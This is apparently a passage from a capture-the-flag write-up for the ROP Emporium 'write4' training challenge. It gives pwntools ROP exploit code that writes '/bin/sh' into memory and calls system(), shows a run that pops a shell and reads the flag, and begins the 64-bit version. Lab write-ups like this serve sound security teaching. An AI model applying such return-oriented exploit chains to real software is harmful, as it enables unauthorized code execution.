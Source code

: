 ```python
'''

payload += pop_two_addr
payload += p32(data_addr + 0x4)
payload += "/sh "
payload += mov_addr

'''
Right now, the .data section contains the string "/bin/sh ". We can now call
system just like we did for the 'split32' challenge by setting up the stack
such that the mov gadget from above returns to system()
'''

payload += system_addr # Return to the system() function from the mov gadget
payload += p32(0xdeadbeef) # Return address for system doesn't matter
payload += p32(data_addr) # Location in memory of "/bin/sh "

sh = elf.process()

sh.recvuntil("> ")
sh.sendline(payload)

sh.interactive()
```

Running the exploit.
```shell
~/Documents/ropemporium/write4/32write4# chmod +x exploit.py && ./exploit.py
$ ls
core  exploit.py  flag.txt  payload  write432
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
$  
```

### 64-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

The way the challenges have been going, we know that we have to do the exact same thing that we did in the 32-bit version with some slight changes. First, we have to change the ROP chain to ensure it confines with what a 64-bit ROP chain should look like. Secondly, we have to change the way we call `system()` since we have to pop the argument (the address to the .data section) into RDI first.

We can also write the whole "/bin/sh " string in one go now, since on a 64-bit system, the registers can store 8 bytes at a time.

I've commented my code to explain the exploit as much as I could. If you are still confused, I suggest looking at the explanation for the 32-bit version above. It is the same thing with some slight changes.

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'critical'
elf = ELF("./write4")

# Gadgets
mov_addr = p64(0x0000000000400820) # move [r14], r15
pop_two_addr = p64(0x0000000000400890) # pop r14; pop r15; ret;
pop_rdi_addr = p64(0x0000000000400893) # pop rdi; ret;

data_addr = 0x00601050 # .data section address
system_addr = p64(0x004005e0) # system() address

```